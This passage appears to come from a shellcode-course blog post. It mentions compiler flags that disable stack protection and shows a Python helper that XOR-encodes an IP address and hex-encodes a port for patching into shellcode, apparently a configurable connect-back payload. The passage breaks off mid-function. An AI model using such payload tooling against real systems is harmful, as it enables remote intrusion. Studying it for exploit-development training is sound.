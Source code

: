 
Please note that compile.sh script uses -fno-stack-protector -z execstack flags
in order to disable stack protection mechanisms in Linux Operating System.


## The configurator

And now, let's write some helper code in order to tweak our shellcode.
Assignment request was that both IP address and destination PORT number, would
be easy to configure.

The following python script takes two arguments, an IP and a port number
Both of them are putted in network by order and then translated do hexdecimal.

{% highlight python %}
#!/usr/bin/env python

import sys, socket, struct;
from operator import xor;

def xor_ip_address(original_ip):
    hex_bin_ip          = hex((struct.unpack("<L", socket.inet_aton(original_ip))[0]));
    s = str(hex(xor(long(hex_bin_ip, 16), 0xFFFFFFFF)))[:-1]
    h1 = s[2:4]
    h2 = s[4:6]
    h3 = s[6:8]
    h4 = s[8:10]

    if h1 == "":
        h1 = "00"
    if len(h1) == 1:
        h1 = "0" + h1

    if h2 == "":
        h2 = "00"
    if len(h2) == 1:
        h2 = "0" + h2
    if h3 == "":
        h3 = "00"
    if len(h3) == 1:
        h3 = "0" + h3
    if h4 == "":
        h4 = "00"
    if len(h4) == 1:
        h4 = "0" + h4

    return "\\x%s\\x%s\\x%s\\x%s" % (h4, h3,h2, h1)

def port_to_hex(port):

    if port < 1024 or port > 65535:
        print "[!] invalid TCP port number: " + str(port)
        sys.exit(-1)

    no_port = socket.htons(port);
    hex_no_port = hex(no_port)

    h1 = hex_no_port[2:4]
    h2 = hex_no_port[4:6]

    if h1 == "":
        h1 = "00"

    if len(h1) == 1:
        h1 = "0" + h1

    if h2 == "":
        h2 = "00"

    if len(h2) == 1:
        h2 = "0" + h2